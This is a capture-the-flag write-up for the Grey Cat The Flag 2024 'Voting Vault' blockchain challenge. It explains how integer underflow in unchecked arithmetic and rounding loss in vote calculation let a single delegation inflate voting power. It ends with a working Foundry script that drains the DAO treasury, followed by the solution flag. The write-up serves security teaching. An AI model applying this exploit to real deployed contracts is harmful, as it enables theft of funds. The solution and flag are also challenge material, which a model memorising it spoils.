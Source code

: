 ```yaml
---
title: Blockchain - Voting Vault
description: 2024 | Grey Cat The Flag | Blockchain
tags:
    - smart contract
    - double spending
    - precision loss
    - integer underflow
---
```


## Description

In the spirit of decentralization, GreyHats is now a DAO! Vote with your GREY tokens to decide how our funds are spent.

> nc challs.nusgreyhats.org 30401

> [Challenge Files](https://github.com/MiloTruck/evm-ctf-challenges/tree/8763f5fd12c3179227ec9cac0b21b959c6144dca/src/voting-vault)

## Solution

- 10,000 GREY is deposited into the treasury. To solve the challenge, we need to drain the treasury by creating a withdrawal proposal and gathering enough votes to execute it
- Votes can be obtained by locking GREY for at least 30 days. The voting power can be transferred to others through `VotingVault::delegate()`, and can be done any number of times

    ```js
    function delegate(address newDelegatee) external {
        require(newDelegatee != address(0), "cannot delegate to zero address");

        (UserData storage data, address delegatee) = _getUserData(msg.sender);
        Deposit[] storage deposits = data.deposits;

        data.delegatee = newDelegatee;

        uint256 length = deposits.length;
        if (length == 0) return;

        Deposit storage lastUnlockedDeposit = deposits[data.front];
        Deposit storage lastDeposit = deposits[length - 1];
        uint256 amount = lastDeposit.cumulativeAmount - lastUnlockedDeposit.cumulativeAmount;
        
        uint256 votes = _calculateVotes(amount);
        _subtractVotingPower(delegatee, votes);
        _addVotingPower(newDelegatee, votes);
    }
    ```

- Each person can only vote once for each proposal, but the voting power is reusable. The intuitive idea is to transfer the voting power to other accounts and double spend the votes

    ```js
    function vote(uint256 proposalId) external {
        require(!voted[proposalId][msg.sender], "already voted");

        uint256 blockNumber = proposals[proposalId].blockNumber;
        require(blockNumber < block.number, "same block");
        
        voted[proposalId][msg.sender] = true;

        uint256 votingPower = VAULT.votingPower(msg.sender, blockNumber);
        proposals[proposalId].votes += votingPower;
    }
    ```

- The minimum number of votes required to execute a withdrawal proposal is 1,000,000, while the maximum number of votes we can obtain by locking GREY is 1,300. Due to the limitation of `vote()` function, which only obtains the historical voting power of the previous block, we can only vote once in each block. It is infeasible to reach the threshold and execute the proposal within the validity period of the instance
- When changing the delegatee, the voting power of the previous delegatee will be subtracted. However, the calculation is done within an unchecked block. If `votes` is larger than `oldVotes`, an integer underflow could occur leading to a significant increase in the voting power of the old delegatee

    ```js
    function _subtractVotingPower(address delegatee, uint256 votes) internal {
        uint256 oldVotes = history.getLatestVotingPower(delegatee);
        unchecked { 
            history.push(delegatee, oldVotes - votes); 
        }
    }
    ```

- The number of votes a user receives when locking GREY is calculated based on the amount of GREY to be locked. However, when updating the delegatee, the number of transferred votes is calculated based on the **total number** of locked GREY

    ```js
    function lock(uint256 amount) external returns (uint256) {
        ...
        uint256 votes = _calculateVotes(amount);
        _addVotingPower(delegatee, votes);
        GREY.transferFrom(msg.sender, address(this), amount);
        ...
    }

    function delegate(address newDelegatee) external {
        ...
        Deposit storage lastUnlockedDeposit = deposits[data.front];
        Deposit storage lastDeposit = deposits[length - 1];
        uint256 amount = lastDeposit.cumulativeAmount - lastUnlockedDeposit.cumulativeAmount;
        
        uint256 votes = _calculateVotes(amount);
        _subtractVotingPower(delegatee, votes);
        _addVotingPower(newDelegatee, votes);
    }
    ```

- There is a potential loss of precision when calculating votes. Specifically, the number of votes calculated based on the total number of locked GREY could be greater than the number of votes accumulated by diving the same total amount of GREY into multiple locks

    ```js
    function _calculateVotes(uint256 amount) internal pure returns (uint256) {
        return amount * VOTE_MULTIPLIER / 1e18;
    }
    ```

### Exploitation

```js
// forge script Solve --broadcast -vvv --rpc-url $RPC_URL --slow
contract Solve is Script {
    function run() public {
        Setup setup = Setup(vm.envAddress("INSTANCE"));
        uint priv = vm.envUint("PRIV");

        GREY grey = setup.grey();
        VotingVault vault = setup.vault();
        Treasury treasury = setup.treasury();
        
        vm.startBroadcast(priv);
        setup.claim();
        grey.approve(address(vault), 10);
        vault.lock(1);
        vault.lock(9);

        treasury.propose(address(grey), 10000 ether, vm.addr(priv));

        vault.delegate(address(0x1337));
        vm.roll(block.number + 1);  // to pass the local simulation
        treasury.vote(0);

        treasury.execute(0);
        require(setup.isSolved());
        vm.stopBroadcast();
    }
}
```

### Flag

> grey{rounding_is_dangerous_752aa6bb8b6a9f61}
